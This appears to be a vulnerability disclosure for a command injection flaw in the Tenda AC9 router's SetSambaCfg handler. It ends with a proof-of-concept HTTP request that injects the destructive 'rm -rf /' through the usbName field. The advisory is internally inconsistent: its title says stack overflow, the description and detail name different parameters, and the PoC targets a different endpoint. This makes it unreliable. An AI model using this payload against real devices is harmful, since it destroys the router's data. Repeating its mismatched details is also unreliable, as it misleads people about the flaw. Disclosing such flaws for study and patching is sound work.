 # Tenda AC9 V1.0 V15.03.05.14_multi stack overflow vulnerability
## Affected Version
Tenda AC9 V1.0 V15.03.05.14_multi
## Vulnerability Description
In Tenda ac9 v1.0 routers with firmware version V15.03.05.14_multi, the wanMTU parameter of route /goform/SetSambaCfg has a Command Injection Vulnerability, which may lead to remote arbitrary code execution.
## Vulnerability Detail
In the /goform/SetSambaCfg back-end handler formSetSamba, the HTTP POST request parameters action and usbName are obtained by the function sub_2B9D4. When the content of the parameter "action" is "del", the parameter "usbName" is concatenated into doSystemCmd with a format string and then executed. An attacker can construct malicious parameters "action" and "usbName" to enable remote code execution.

![img](./img/SetSambaCfg.png)
## Poc
```py
POST /goform/SetOnlineDevName HTTP/1.1
Host: 192.168.0.1
Connection: keep-alive
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.198 Safari/537.36
Cookie: password=452b97084f53fd461f33687a27a21f4dpxatgb

action=del&usbName=1; rm -rf /
```
